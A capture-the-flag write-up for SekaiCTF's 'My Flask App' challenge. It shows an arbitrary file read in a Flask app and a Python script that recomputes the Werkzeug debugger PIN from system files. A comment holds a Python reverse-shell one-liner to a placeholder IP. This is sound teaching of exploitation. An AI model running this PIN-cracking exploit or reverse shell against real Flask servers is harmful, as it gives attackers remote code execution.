# My Flask App

```
My Flask App

Web
SEKAI

I created a Web application in Flask, what could be wrong?

Author: belugagemink
https://my-flask-app.chals.sekai.team:1337
```

Attachment:

```python
# app.py
from flask import Flask, request, render_template

app = Flask(__name__)

@app.route('/')
def hello_world():
    return render_template('index.html')

@app.route('/view')
def view():
    filename = request.args.get('filename')
    if not filename:
        return "Filename is required", 400
    try:
        with open(filename, 'r') as file:
            content = file.read()
        return content, 200
    except FileNotFoundError:
        return "File not found", 404
    except Exception as e:
        return f"Error: {str(e)}", 500

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000, debug=True)
```

You can do arbitrary file read.

Following <https://b33pl0g1c.medium.com/hacking-the-debugging-pin-of-a-flask-application-7364794c4948>, we can find the debugger PIN code by reading `/sys/class/net/eth0/address` and `/proc/sys/kernel/random/boot_id`:

```python
import requests

#hostname = "http://localhost:5001"
hostname = "https://my-flask-app-klpwpha0mv8i.chals.sekai.team:1337/"

req = requests.get(hostname + "/view?filename=/sys/class/net/eth0/address")
print(req.text)
mac = int(req.text.replace(":","").strip(), 16)
print(mac)

req2 = requests.get(hostname + "/view?filename=/proc/sys/kernel/random/boot_id")
print(req2.text)

# https://b33pl0g1c.medium.com/hacking-the-debugging-pin-of-a-flask-application-7364794c4948

import hashlib
from itertools import chain

probably_public_bits = [
    "nobody",  # username
    "flask.app",  # modname
    "Flask",  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    "/usr/local/lib/python3.11/site-packages/flask/app.py",  # getattr(mod, '__file__', None),
]
print(probably_public_bits)

private_bits = [
    str(mac),  #  the value from /sys/class/net/eth0/address
    req2.text.strip(),  # value from /proc/sys/kernel/random/boot_id
]
print(private_bits)

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode("utf-8")
    h.update(bit)
h.update(b"cookiesalt")

cookie_name = "__wzd" + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b"pinsalt")
    num = ("%09d" % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = "-".join(
                num[x : x + group_size].rjust(group_size, "0")
                for x in range(0, len(num), group_size)
            )
            break
    else:
        rv = num
print(rv)

# get shell:
# visit hostname/console
# import os,pty,socket;s=socket.socket();s.connect(("REVERSE_SHELL_PUBLIC_IP",PORT));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")
```

Then we can get reverse shell by running Python on the console.

However, I was only able to solve this locally, not online due to a missing piece. The piece was only found when the public writeup is released at <https://github.com/project-sekai-ctf/sekaictf-2025/blob/main/web/my-flask-app/solution/solve.py>: Host should be set to 127.0.0.1, otherwise the debugger console won't show up.
